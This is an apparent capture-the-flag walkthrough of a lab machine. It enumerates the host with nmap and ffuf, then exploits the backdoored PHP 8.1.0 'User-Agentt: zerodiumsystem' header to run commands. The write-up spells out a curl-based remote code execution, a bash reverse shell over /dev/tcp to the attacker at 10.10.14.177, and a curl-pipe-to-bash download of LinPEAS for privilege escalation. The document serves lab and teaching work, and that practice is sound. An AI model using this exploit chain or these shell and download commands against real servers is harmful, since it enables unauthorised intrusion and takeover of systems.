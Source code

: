 We start with nmap:

```
nmap -sV -sC {ip address}
```
There are two ports open 80 and 22

We enumerate the directories with ffuf:

```
ffuf -u http://10.10.10.242/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

We find the version of php by using `curl`

```
curl -I http://10.10.10.242/index.php
```

We learn that the web-server is `php 8.1.0`

If we pass a header value of `User-Agentt: zerodiumsystem("cmd")`, it should execute on the web-server.

We set up a web-server to listen:

```
sudo python3 -m http.server 80
```

To confirm our header code works we send, and wait for a 200 response on the web-server:

```
curl http://10.10.10.242/index.php -H 'User-Agentt: zerodiumsystem("curl 10.10.14.177");'
```

Set up netcat listener:

```
nc -nlvp 1234
```

Run the reverse shell:

```
curl http://10.10.10.242/index.php -H "User-Agentt: zerodiumsystem(\"bash -c 'bash -i &>/dev/tcp/10.10.14.177/1234 0>&1 '\");"
```

This gives us a shell for user James, we need to escalate privileges to root. To do this we download LinPEAS to our local via wget, then curl our local web-server to get the LinPEAS.

```
Local$ wget wget https://github.com/peass-ng/PEASS-ng/releases/download/20240714-cd435bb2/linpeas.sh

Local$ sudo python3 -m http.server 80

Attack$ curl 10.10.14.177/linpeas.sh|bash
```

The attack command will download the linpeas script on the attacking box and let us know what privilege escalation vulnerabilities are on the box.

